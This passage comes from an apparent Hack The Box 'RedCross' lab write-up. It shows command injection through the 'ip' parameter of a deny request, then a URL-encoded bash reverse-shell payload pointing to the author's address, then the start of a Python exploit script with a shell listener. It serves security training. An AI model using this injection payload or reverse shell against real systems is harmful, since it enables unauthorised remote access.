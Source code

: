 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:46:52.png)

And on the Deny

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:49:00.png)

```
ip=10.10.14.20&id=13&action=deny
```

We suppos that the page is executing a command in the ip parameter, a bash one, so, if we put a semicolon on the end we can execute other commands

Yep, we got it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:49:25.png)

Now let's test to our box with a reverse shell

```
ip=10.10.14.20%3bbash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.20/443+0>%261'&id=13&action=deny
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:52:54.png)

Now, let's update our script to auto get this shell!!!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2009:05:17.png)

rev_www-data.py

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - RedCross
# Get auto reverse shell

import argparse
import requests
import sys
import urllib3
import urllib
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, we need to create a user on the app, to get logged in and access the SQLInjection
```